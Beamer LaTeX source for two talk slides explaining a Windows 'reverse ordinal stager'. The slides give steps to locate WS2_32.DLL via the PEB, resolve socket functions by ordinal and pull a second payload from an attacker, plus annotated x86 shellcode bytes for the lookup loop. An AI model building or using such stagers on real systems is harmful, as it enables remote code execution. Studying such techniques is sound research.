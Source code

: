 \documentclass{beamer}
\newenvironment{sitemize}{\vspace{1mm}\begin{itemize}\itemsep 4pt\small}{\end{itemize}}
\begin{document}
\begin{frame}[t]
    \frametitle{Implementing a reverse ordinal stager}

    \begin{sitemize}
        \item Locate the base address of \texttt{WS2\_32.DLL}
        \begin{sitemize}
            \item Extract the Peb->Ldr pointer
            \item Extract Flink from the InInitOrderModuleList
            \item Loop through loaded modules comparing module names
            \item Module name is stored in unicode, but can be
            partially translated to ANSI in 5 bytes
            \item Once \texttt{WS2\_32.DLL} is found, extract its
            BaseAddress.
        \end{sitemize}

        \pause
        \item Resolve \texttt{socket}, \texttt{connect},
        and \texttt{recv}
        \begin{sitemize}
            \item Use static ordinals to index the address table
        \end{sitemize}

        \pause
        \item Allocate a socket, connect to the attacker,
        and read in the next payload

        \pause
        \item Requires that \texttt{WS2\_32.DLL} already be loaded
        in the target process
    \end{sitemize}

\end{frame}

\begin{frame}[fragile]
    \frametitle{Locating WS2\_32.DLL's base address}

\footnotesize{
    \begin{verbatim}
FC         cld                   ; clear direction (lodsd)
31DB       xor ebx,ebx           ; zero ebx
648B4330   mov eax,[fs:ebx+0x30] ; eax = PEB
8B400C     mov eax,[eax+0xc]     ; eax = PEB->Ldr
8B501C     mov edx,[eax+0x1c]    ; edx = Ldr->InitList.Flink
8B12       mov edx,[edx]         ; edx = LdrModule->Flink
8B7220     mov esi,[edx+0x20]    ; esi = LdrModule->DllName
AD         lodsd                 ; eax = [esi] ; esi += 4
AD         lodsd                 ; eax = [esi] ; esi += 4
4E         dec esi               ; esi--
0306       add eax,[esi]         ; eax = eax + [esi]
                                 ; (4byte unicode->ANSI)
3D32335F32 cmp eax,0x325f3332    ; eax == 2_32?
75EF       jnz 0xd               ; not equal, continue loop

    \end{verbatim}
}
\end{frame}
\end{document}
